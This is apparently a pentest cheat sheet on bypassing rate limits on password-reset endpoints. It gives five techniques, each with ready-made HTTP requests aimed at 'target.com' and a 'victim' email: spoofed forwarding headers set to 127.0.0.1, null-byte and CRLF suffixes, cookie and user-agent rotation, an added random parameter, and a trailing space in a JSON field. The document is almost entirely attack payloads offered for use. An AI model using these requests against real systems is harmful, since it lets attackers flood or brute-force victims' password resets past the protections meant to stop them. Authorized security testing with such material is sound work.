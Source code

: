 # Bypass Rate Limit
1. Try add some custom header
```
X-Forwarded-For : 127.0.0.1
X-Forwarded-Host : 127.0.0.1
X-Client-IP : 127.0.0.1
X-Remote-IP : 127.0.0.1
X-Remote-Addr : 127.0.0.1
X-Host : 127.0.0.1
```
For example:
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
X-Forwarded-For : 127.0.0.1
[...]

email=victim@gmail.com
```

2. Adding Null Byte ( %00 ) or CRLF ( %09, %0d, %0a ) at the end of the Email can bypass rate limit.
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
[...]

email=victim@gmail.com%00
```

3. Try changing user-agents, cookies and IP address
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
Cookie: xxxxxxxxxx
[...]

email=victim@gmail.com
```
Try this to bypass
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
Cookie: aaaaaaaaaaaaa
[...]

email=victim@gmail.com
```

4. Add a random parameter on the last endpoint
```
POST /ForgotPass.php HTTP/1.1
Host: target.com
[...]

email=victim@gmail.com
```
Try this to bypass
```
POST /ForgotPass.php?random HTTP/1.1
Host: target.com
[...]

email=victim@gmail.com
```

5. Add space after the parameter value
```
POST /api/forgotpass HTTP/1.1
Host: target.com
[...]

{"email":"victim@gmail.com"}
```
Try this to bypass
```
POST /api/forgotpass HTTP/1.1
Host: target.com
[...]

{"email":"victim@gmail.com "}
```
